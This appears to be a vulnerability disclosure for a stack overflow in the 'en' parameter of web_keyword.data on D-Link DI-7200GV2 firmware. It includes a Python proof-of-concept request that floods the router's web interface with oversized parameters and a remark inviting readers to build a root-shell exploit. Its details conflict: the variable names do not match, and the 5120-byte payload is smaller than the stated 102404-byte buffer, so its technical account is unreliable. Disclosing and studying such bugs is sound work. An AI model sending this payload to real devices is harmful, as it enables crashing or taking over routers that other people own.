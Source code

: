 # Affected Version
D-Link device DI-7200GV2 v21.04.09E1
# Vulnerability Description
D-Link device DI-7200GV2 v21.04.09E1 was discovered to contain a stack overflow via parameter en in the web_keyword.data.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7000G+V2%e7%b3%bb%e5%88%97

# Vulnerability Details
v3 is a variable that can be controlled by the user. The program uses sprintf to copy v3 to v32, and v9 is a variable on the stack with a space of 102404 bytes. If en parameter exceeding 102404 bytes are input, the stack may overflow.
![Alt text](0.png) 
![Alt text](1.png)

# Recurring vulnerabilities and POC
First, we boot the image via FirmAE.  
![Alt text](3.png)
Then,we login in to 192.168.0.1.  
![Alt text](4.png) 
Finally, we send the following poc:  
<pre>
import requests
from requests import exceptions
url = "http://192.168.0.1/web_keyword.data"

params = {
    "name": "a"*0x1400,
    "en": "a"*0x1400,
    "time": "a"*0x1400,
    "opt": "a"*0x1400
}

headers = {
    "Host": "192.168.0.1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response)
</pre>

![Alt text](5.png)

And you can write your own exp to get the root shell.